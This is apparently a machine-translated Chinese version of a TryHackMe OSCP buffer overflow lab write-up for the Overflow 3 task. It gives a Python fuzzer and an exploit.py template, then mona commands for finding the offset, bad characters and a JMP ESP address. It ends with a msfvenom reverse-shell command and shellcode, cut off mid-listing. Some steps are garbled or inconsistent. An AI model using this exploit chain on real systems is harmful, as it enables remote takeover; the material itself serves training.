# TryHackMe: OSCP 缓冲区溢出准备(溢出 3)

> 原文：<https://infosecwriteups.com/tryhackme-oscp-buffer-overflow-prep-overflow-3-fdece5d96532?source=collection_archive---------0----------------------->

**由 Shamsher khan 练习的基于堆栈的缓冲区溢出！对于 OSCP**


**房间链接:**[**https://www.tryhackme.com/room/bufferoverflowprep**](https://www.tryhackme.com/room/bufferoverflowprep) **注:此房免费**

在你完成这篇文章之前，确保你已经完成了

## [缓冲区溢出准备(溢出-1)](https://shamsher-khan-404.medium.com/tryhackme-oscp-buffer-overflow-prep-overflow-1-19e000482f27)

## [缓冲区溢出准备(溢出-2)](https://shamsher-khan-404.medium.com/tryhackme-oscp-buffer-overflow-prep-overflow-2-57c22b51a91f)

[**下载 OSCP.exe**](https://github.com/shamsherkhan852/Buffer-Overflow-Vulnerable-app)

[](https://github.com/shamsherkhan852/Buffer-Overflow-Vulnerable-app) [## shamsherkhan 852/缓冲区溢出漏洞 app

### SLMail 安装程序。脑盘双星。dostackbufferoverflowgood 二进制文件。vulnserver 二进制文件。一个习俗…

github.com](https://github.com/shamsherkhan852/Buffer-Overflow-Vulnerable-app) 

# 定义:

1.  EIP = > 扩展指令指针(EIP)是一个寄存器，包含程序或命令的下一条指令的地址。
2.  **ESP= >** 扩展堆栈指针(ESP)是一个寄存器，它让你知道你在堆栈的什么位置，并允许你将数据推入和推出应用程序。
3.  **JMP = >** 跳转(JMP)是一条修改执行流程的指令，其中您指定的操作数将包含要跳转到的地址。
4.  **\x41，\x42，\ x43 =>**A、B、c 的十六进制值，对于这个练习来说，使用 hex vs ascii 并没有什么好处，这只是我个人的喜好。

# 溢出#2

好的，现在我们应该以管理员身份运行我们的免疫调试器并打开 oscp.exe。



应用程序将以“暂停”状态加载到调试器中。在抗干扰调试器中点击上栏**或 F9** 上的红色播放按钮。

通过检查免疫力调试器右下角的状态，确保 exe 正在运行。


要进行检查，我们可以使用端口 1337 NC 到目标机器。



这里我选择**溢出 3** 参数

在 mona 中设置工作文件夹。

[](https://github.com/corelan/mona) [## 科勒兰/莫娜

### 是一个 python 脚本，可以用来自动化和加速特定的搜索…

github.com](https://github.com/corelan/mona) 

将 mona.py 和 paset 下载到 C:\ Program Files(x86)\ Immunity Inc \ Immunity Debugger \ py commands

```
!mona config -set workingfolder c:\mona\%p
```


让我们试着运行 fuzzer.py(从房间获取)看看结果。只需检查脚本中的 IP 是否正确，并确保在运行脚本之前再次运行免疫调试器中的 oscp.exe。

**注意:-在 fuzzer.py 和 exploit.py 中把 OVERFLOW2 命令改为 overflow 3**

# Fuzzer.py

```
import socket, time, sysip = "192.168.43.57";
port = 1337
timeout = 5buffer = []
counter = 100
while len(buffer) < 30:
    buffer.append("A" * counter)
    counter += 100for string in buffer:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        connect = s.connect((ip, port))
        s.recv(1024)
        print("Fuzzing with %s bytes" % len(string))
        s.send("OVERFLOW3 " + string + "\r\n")
        s.recv(1024)
        s.close()
    except:
        print("Could not connect to " + ip + ":" + str(port))
        sys.exit(0)
    time.sleep(1)
```

还复制了 **exploit.py** 代码

```
import socketip = "192.168.43.57"
port = 1337prefix = "OVERFLOW3 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""buffer = prefix + overflow + retn + padding + payload + postfixs = socket.socket(socket.AF_INET, socket.SOCK_STREAM)try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

点击红色的播放按钮，并开始对目标 IP fuzzer . py



如果您看到它在 1300 字节处停止，这意味着偏移量将在 1200 到 1300 字节的范围内。让我们创建一个大于偏移量 100 字节的模式，也就是 1400 字节。



上图中你可以看到 EIP 已经被 41414141 (AAAA)覆盖。所以我们需要找到程序崩溃的确切地址

现在根据使服务器崩溃的字节长度生成一个模式。

```
msf-pattern_create -l 1400
```



所以复制有效载荷，放入 exploit.py 中的有效载荷变量，尝试运行。该脚本应该会再次使 oscp.exe 服务器崩溃。

【CTRL+F2 =重新加载 OSCP.exe

**F9 =运行服务器**



确保 oscp.exe 正在免疫调试器中运行。对目标执行 exploit.py。



在上图中，我们有 **EIP=35714234**

EIP 被我们生成的偏移量覆盖。

# 查找偏移值



偏移值是 1274

**使用 mona 模块查找偏移值的另一种方法**

尝试在免疫模式下运行以下 mona 命令:

```
!mona findmsp -distance 1600
```



所以寻找表示 EIP 包含正常模式的行:0x76413176(偏移量 634)。我们在 offset 变量中找到的偏移量，并将 retn 变量设置为 BBBB。

更新偏移量和 retn 变量



重新启动。exe，并按 Ctrl+F12 和 F9 运行。执行 exploit.py。如果偏移量正确，我们应该看到“42424242”

Let’s run it again.



As we can see the **EIP**寄存器被 BBBB 或 42424242 覆盖。到目前为止，一切都很顺利。

记下 ESP 地址，因为我们将在后续步骤中使用该位置的值

# 查找 Badchars

现在我们需要找到 bad char——为此我们创建 bad char，使用 MONA 在机器内部设置，另一个只需通过谷歌搜索或使用 python 脚本。默认情况下\x00 被认为是一个坏字符，所以它肯定会被忽略。这有助于我们识别对我们的程序真正有害的字符！

使用 mona 生成 bytearray，默认情况下排除空字节(\x00)。

使用这个 mona 命令。

```
!mona bytearray -b "\x00"
```



现在我们需要从\x01 到\xff 生成一个与 bytearray 相同的坏字符字符串。使用 python 脚本

# bytegen.py

```
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```


这个生成的字符串已经删除了\x00，所以我们需要从。和莫娜在一起。

将新生成的字符串复制到 exploit.py 中的有效负载变量中



运行脚本并记下 ESP 寄存器指向的地址



右键单击 ESP 值，然后转储



在上面的图像中，序列在 10 或 13 之间被改变，这意味着在有效载荷中有一些坏字符，让我们找出坏字符

在下面的 mona 命令中使用它

**注意:-** 也许您的 ESP 地址不同

```
!mona compare -f C:\mona\oscp\bytearray.bin -a 00D0FA28
```



可能的错误字符

所以我们找到了一个可能的坏字符列表`**11 12 40 41 5f 60 b8 b9 ee ef**`

并非所有这些都是不好的字符！有时坏字符也会导致下一个字节损坏，甚至影响字符串的其余部分。

此时，我开始一次删除一个不良字符。我通过重复以下步骤，一次删除一个坏字符:

*   从字节数组中删除字符
*   从漏洞有效载荷中移除字符
*   启动 exe
*   使用 mona 进行比较

开始豁免 oscp.exe，

所以我创建了一个新的 bytearray，并从有效负载中删除了\x11

```
!mona bytearray -b "\x00\x11"
```



运行服务器

编辑 exploit.py 从有效负载变量中删除\x11 并运行 exploit.py


检查 ESP 指针值



```
!mona compare -f C:\mona\oscp\bytearray.bin -a 00D5FA28(ESP)
```



根据免疫调试器的提示，现在可能的错误字符是 x40 \ x41 \ x5f \ X60 \ xb8 \ xb9 \ xee \ xef。这意味着一个 BADCHAR 把它的相邻字节也变成了 BADCHAR，缺省情况下 BAD char 是不需要的

开始豁免 oscp.exe

所以我创建了一个新的 bytearray，并从有效负载中删除了\x40

```
!mona bytearray -b "\x00\x11\x40"
```

运行服务器

编辑 exploit.py 从有效负载变量中删除\x40 并运行 exploit.py


检查 ESP 指针值


```
!mona compare -f C:\mona\oscp\bytearray.bin -a 0088FA28
```



同样，x40 是一个坏字符，x41 不是。

现在我们只有两个明显的 bad char \ x5f \ X60 \ xb8 \ xb9 \ xee \ xef

开始豁免 oscp.exe

所以我创建了一个新的 bytearray，并从有效负载中删除了\x5f

```
!mona bytearray -b "\x00\x11\x40\x5f"
```

运行服务器

编辑 exploit.py 从有效负载变量中移除\x5f 并运行 exploit.py


检查 ESP 指针值



```
!mona compare -f C:\mona\oscp\bytearray.bin -a 00BDFA28
```



同样，x5f 是一个 BADCHAR，x60 不是。

现在我们只有两个明显的错误

开始豁免 oscp.exe

所以我创建了一个新的 bytearray，并从有效负载中删除了\xb8

```
!mona bytearray -b "\x00\x11\x40\x5f\xb8"
```

运行服务器

编辑 exploit.py 从有效负载变量中移除\xb8 并运行 exploit.py


检查 ESP 指针值



```
!mona compare -f C:\mona\oscp\bytearray.bin -a 008DFA28
```



同样，xb8 是一个坏字符，xb9 不是。

现在我们只有两个明显的坏蛋

开始豁免 oscp.exe

所以我创建了一个新的 bytearray，并从有效负载中删除了\xee

```
!mona bytearray -b "\x00\x11\x40\x5f\xb8\xee"
```

运行服务器

编辑 exploit.py 从有效负载变量中删除并运行 exploit.py


检查 ESP 指针值


```
!mona compare -f C:\mona\oscp\bytearray.bin -a 0085FA28
```



在这之后！我们启动它并在 MONA 中运行比较，我们发现地址现在未被修改。嘣，我们终于有了坏蛋

未修改就得到错误，试错之后，序列是这样的。

绿框表示正确的坏字符，让我们再次使用 mona 命令找到跳转点:

```
!mona jmp -r esp -cpb “\x00\x11\x40\x5f\xb8\xee”
```



上述结果中的任何地址都可能被用作漏洞利用中的 retn 值。小端=反。还要添加填充以允许有效载荷打开包装。

注意地址 **62501203**

> ***注意:-如果* 62501203 *没有为反向外壳创建完美的 paylaod，则更改地址，直到获得反向外壳***

用新地址更新我们的 retn 变量，并且必须向后写(因为系统是 little-endian=Reverse)。

```
retn = "\x03\x12\x50\x62"
padding = "\x90" * 16
```



现在使用 msfvenom 生成反向 shell 有效负载。

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.43.73 LPORT=4444 EXITFUNC=thread -b “\x00\x11\x40\x5f\xb8\xee” -f c
```



将有效负载复制到 exploit.py 中，并将有效负载变量设置为 buf。



所以最后的有效载荷是我的卡莉

```
import socketip = "192.168.43.57"
port = 1337
buf = b""
buf += b"\xfc\xbb\xc3\x62\xa9\xe4\xeb\x0c\x5e\x56\x31\x1e\xad\x01\xc3"
buf += b"\x85\xc0\x75\xf7\xc3\xe8\xef\xff\xff\xff\x3f\x8a\x2b\xe4\xbf"
buf += b"\x4b\x4c\x6c\x5a\x7a\x4c\x0a\x2f\x2d\x7c\x58\x7d\xc2\xf7\x0c"
buf += b"\x95\x51\x75\x99\x9a\xd2\x30\xff\x95\xe3\x69\xc3\xb4\x67\x70"
buf += b"\x10\x16\x59\xbb\x65\x57\x9e\xa6\x84\x05\x77\xac\x3b\xb9\xfc"
buf += b"\xf8\x87\x32\x4e\xec\x8f\xa7\x07\x0f\xa1\x76\x13\x56\x61\x79"
buf += b"\xf0\xe2\x28\x61\x15\xce\xe3\x1a\xed\xa4\xf5\xca\x3f\x44\x59"
buf += b"\x33\xf0\xb7\xa3\x74\x37\x28\xd6\x8c\x4b\xd5\xe1\x4b\x31\x01"
buf += b"\x67\x4f\x91\xc2\xdf\xab\x23\x06\xb9\x38\x2f\xe3\xcd\x66\x2c"
buf += b"\xf2\x02\x1d\x48\x7f\xa5\xf1\xd8\x3b\x82\xd5\x81\x98\xab\x4c"
buf += b"\x6c\x4e\xd3\x8e\xcf\x2f\x71\xc5\xe2\x24\x08\x84\x6a\x88\x21"
buf += b"\x36\x6b\x86\x32\x45\x59\x09\xe9\xc1\xd1\xc2\x37\x16\x15\xf9"
